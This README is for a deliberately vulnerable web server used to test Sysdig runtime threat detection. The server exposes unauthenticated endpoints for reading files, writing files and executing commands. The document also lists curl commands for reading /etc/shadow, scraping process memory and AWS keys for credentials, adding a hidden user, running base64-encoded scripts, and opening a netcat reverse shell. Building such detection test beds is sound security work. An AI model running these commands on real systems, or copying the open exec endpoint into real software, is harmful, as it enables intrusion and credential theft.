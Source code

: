 # Security Playground

The security playground is a HTTP web server that alllows you to simulate various security breaches in runtime.

## Installation

Use the deployment.yaml to deploy this to your kubernetes cluster, it will deploy
- Deployment with 1 Replica of the pod
- LoadBalancer Service to expose the web server on port 80/HTTP

```bash
kubectl apply -f kubernetes-manifests/deployment.yaml
```

Or run it locally in using docker

```bash
docker run --rm -p 8080:8080 ghcr.io/andrewd-sysdig/security-playground:latest
```

## Usage

The HTTP API exposes three endpoints to interact with the system.

### Reading a file

You can read a file using just the URL. This will return the content of the /etc/shadow file.

```bash
curl http://<webserver>/etc/shadow
```

### Writing a file

You can write to a file using the URL and POSTing the content. This will write to /bin/hello the hello-world string.

```bash
curl -X POST http://<webserver>/bin/hello -d 'content=hello-world'
```

### Executing a command

You can execute a command using the /exec endpoint and POSTing the command. This will capture and return the STDOUT of the command executed.

```bash
curl -X POST http://<webserver>/exec -d 'command=ls -la'
```

## Library of curl commands to trigger various Sysdig Events

Set the WEBSERVERIP env variable to be the IP of your target (the pod/service)

```bash
export WEBSERVERIP=192.168.1.15
```

## Library of curl commands to trigger various Sysdig Events

> **Sysdig Managed Policy: Sysdig Runtime Threat Detection (Severity: High)**

| Sysdig Event | Curl Command   |
|---|---|
| Reconnaissance attempt to find SUID binaries | `curl -X POST http://$WEBSERVERIP/exec -d 'command=find / -perm -u=s -type f 2>/dev/null'` |
| Dump memory for credentials | `curl -X POST http://$WEBSERVERIP/exec -d 'command=grep passwd /proc/1/mem'` |
| Find AWS Credentials | `curl -X POST http://$WEBSERVERIP/exec -d 'command=grep aws_access_key_id /tmp/'` |
| Netcat Remote Code Execution in Contianer | `curl -X POST http://$WEBSERVERIP/exec -d 'command=nc -c bash 10.0.0.1 4242'` |
| Suspicious Home Directory Creation | `curl -X POST http://$WEBSERVERIP/exec -d 'command=adduser -h /dev/null -s /bin/sh test3 -D'` |
| Base64-encoded Python Script Execution | `curl -X POST http://$WEBSERVERIP/exec -d 'command=echo cHl0aG9uMyAtYyAnaW1wb3J0IF9faGVsbG9fXycK \| base64 -d \| sh'` |
| Base64-encoded Shell Script Execution | `curl -X POST http://$WEBSERVERIP/exec -d 'command=echo IyEvYmluL3NoCmVjaG8gIkhlbGxvIFdvcmxkIgo= \|base64 -d \|sh'` |
| Base64'd ELF file on Command Line | `curl -X POST http://$WEBSERVERIP/exec -d 'command=echo f0VMRgIB1M== \|base64 -d > hello'` |

> **Sysdig Managed Policy: Sysdig Runtime Notable Events (Severity: Medium)**

| Sysdig Event | Curl Command   |
|---|---|
| Read sensitive file untrusted | `curl http://$WEBSERVERIP/etc/shadow` |
